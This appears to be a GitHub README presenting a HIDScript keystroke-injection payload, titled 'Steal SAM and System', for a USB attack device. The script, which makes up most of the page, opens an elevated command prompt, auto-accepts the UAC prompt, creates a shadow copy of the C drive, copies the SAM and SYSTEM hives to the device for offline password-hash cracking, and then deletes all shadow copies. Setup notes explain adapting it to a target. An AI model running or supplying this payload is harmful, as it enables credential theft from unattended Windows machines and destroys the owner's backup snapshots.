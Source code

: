 # Credentials - Steal SAM and System

## Description

This is a simple HIDScript that create a Shadow Volume Snapshot of C drive and copy SAM and SYSTEM files in you'r current directory.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.
3. Change the "cd D:\\" command to your desired location where save the files. Basically it should be your rubber ducky device or whatever.
4. The shadow volume is set to "HarddiskVolumeShadowCopy1" based on the idea that the target computer hasn't created a Shadow Volume in the past. Otherwise, it can change to "HarddiskVolumeShadowCopy2" or whatever.

## Code

```bash
layout("ch")
press("GUI r")
delay(200)
type("powershell.exe start-process cmd -verb runas")
press("ENTER")
delay(1500)
press("LEFT")
press("ENTER")
delay(1000)
type("cd D:\\")
type("wmic shadowcopy call create Volume='C:\\'")
press("ENTER")
delay(3000)
type("copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\windows\\system32\\config\\sam .")
press("ENTER")
delay(1000)
type("copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\windows\\system32\\config\\system .")
press("ENTER")
delay(1000)
type("vssadmin delete shadows /All")
press("ENTER")
delay(500)
type("O")
press("ENTER")
delay(2000)
type("exit")
press("ENTER")
```